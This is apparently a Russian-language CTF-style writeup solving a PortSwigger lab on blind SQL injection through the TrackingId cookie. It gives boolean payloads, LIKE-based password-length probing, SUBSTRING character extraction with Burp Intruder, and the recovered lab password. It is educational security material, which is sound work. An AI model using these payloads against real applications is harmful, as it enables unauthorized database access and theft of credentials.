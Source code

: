 ```yaml
---
title: "Blind SQL injection with conditional responses"
date: 2025-06-13
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-conditional-responses/sql-injection/blind/lab-conditional-responses"
classes: wide
---
```


В данной лабе есть уязвимый к **Blind based SQL injection**. В БД есть таблицы с именам `users` и колонками `username` и `password`. Нужно получить информацию из БД, чтобы зайти в аккаунт `administrator`.


```
https://0aba006f03d52a0d821060e700e9006a.web-security-academy.net
```

## Solution

В данной лабе есть подсказка, что уязвимость находится в `Cookies`. Поэтому посмотрю на содержимое `HTTP`-запроса:

```http
GET /filter?category=Gifts HTTP/2
Host: 0aba006f03d52a0d821060e700e9006a.web-security-academy.net
Cookie: TrackingId=Z28gj5Ik5MfywkER; session=WVhVuqALey9XO6wavivtQPu00cE5waLo
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aba006f03d52a0d821060e700e9006a.web-security-academy.net/filter?category=Corporate+gifts
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

В `Cookie` есть два значения: `TrackingId` и `session`. Попробую подставить значение в `TrackingId`. Отправлю оригинальный запрос, чтобы было с чем сравнивать:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 5396

...

```

Вижу, что размер ответа `5396`, а на странице отображается данное сообщение:


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_Blind_SQL_injection_with_conditional_responses/1.png){: height="200" .align-center}


Отправлю запрос с  пейлоадом `and 1=0--`, чтобы значение выражения было всегда `False` значением поля `TrackingId`:

```http
GET /filter?category=Gifts HTTP/2
Host: 0aba006f03d52a0d821060e700e9006a.web-security-academy.net
Cookie: TrackingId=Z28gj5Ik5MfywkER' and 1=0--; session=WVhVuqALey9XO6wavivtQPu00cE5waLo
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aba006f03d52a0d821060e700e9006a.web-security-academy.net/filter?category=Corporate+gifts
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Я получил следующий ответ:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 5335
...
```


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_Blind_SQL_injection_with_conditional_responses/2.png){: height="200" .align-center}


Надписи нет, а значит при верном значении `TrackingId` у нас появляется надпись. Это может служить индикатором того, что пейлоад сработал.

Попробую подобрать сам пейлоад. Значение этого параметра — текст. Поэтому предположу, что запрос может выглядеть следующим образом:

```sql
SELECT * FROM table WHERE TrackinId = 'value' AND session = 'session'
```

Из условия мне известно название таблицы, попробую это проверить:

```
Z28gj5Ik5MfywkER' and (SELECT '1' from users LIMIT 1) = '1'-- -' - Ok
```

Значит в БД есть такая таблица. Теперь нужно написать запрос для проверки существования пользователя `administrotor`:

```
Z28gj5Ik5MfywkER' and (SELECT username FROM users WHERE username='administrator') = 'administrator'-- -Ok'
```

Такой пользователь есть, теперь дело за малым — достать из БД пароль. Для начала попробуй найти длину пароля. Для этого буду использовать оператор `LIKE` и символ `_`, который обозначает один любой символ. Таким образом пейлоад может выглядеть следующим образом:

```
Z28gj5Ik5MfywkER' and (SELECT username FROM users WHERE username='administrator' AND password LIKE '_') = 'administrator'-- -'
Z28gj5Ik5MfywkER' and (SELECT username FROM users WHERE username='administrator' AND password LIKE '__') = 'administrator'-- -'
Z28gj5Ik5MfywkER' and (SELECT username FROM users WHERE username='administrator' AND password LIKE '___') = 'administrator'-- -'
Z28gj5Ik5MfywkER' and (SELECT username FROM users WHERE username='administrator' AND password LIKE '____') = 'administrator'-- -'
Z28gj5Ik5MfywkER' and (SELECT username FROM users WHERE username='administrator' AND password LIKE '_____') = 'administrator'-- -'

...

Z28gj5Ik5MfywkER' and (SELECT username FROM users WHERE username='administrator' AND password LIKE '____________________') = 'administrator'-- -'
```

Я ~~ебал~~ удивлен такому паролю. Начал брутфорсить длину вместо бинарного поиска. О чем пожалел...


Итак, длина 20 символов. Теперь нужно подобрать сам пароль. Для этого я буду использовать оператор `SUBSTRING`. С его помощью для каждой позиции пароля я буду доставать один символ и сравнивать его с каждым из набора печатных символов. В случае, когда символ окажется верным, я получу на странице сообщение `Welcome back`. Пейлоад будет следующий:

```
Z28gj5Ik5MfywkER' and (SELECT SUBSTRING(password, 1, 1) FROM users WHERE username='administrator') = 'a'-- -'
```

Можно это перебрать вручную, но это отнимет кучу времени, поэтому я использую `Intruder` в `Burp Suite`:  

1. Отправлю нужный запрос в `Intruder`:


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_Blind_SQL_injection_with_conditional_responses/3.png){: height="200" .align-center}


2. Отмечу место для подстановки символов с помощью символов `$`:


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_Blind_SQL_injection_with_conditional_responses/4.png){: height="200" .align-center}


3. На вкладке `Payloads` выберу тип пейлоада `Brute Force`, а длину выставлю на `1`, так как сравнивается всегда только один символ:


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_Blind_SQL_injection_with_conditional_responses/5.png){: height="200" .align-center}


4. Начать атаку!!  

5. Отсортирую по размеру ответа:


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_Blind_SQL_injection_with_conditional_responses/6.png){: height="200" .align-center}


Я получил первую букву пароля — `v`. Теперь это нужно сделать для всех остальных...

3 DAYS LATER... я получил пароль: `vt48kuprn49cw067cmq4`. Попробую зайти в аккаунт:



![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_Blind_SQL_injection_with_conditional_responses/7.png){: height="200" .align-center}


Успех... ☕
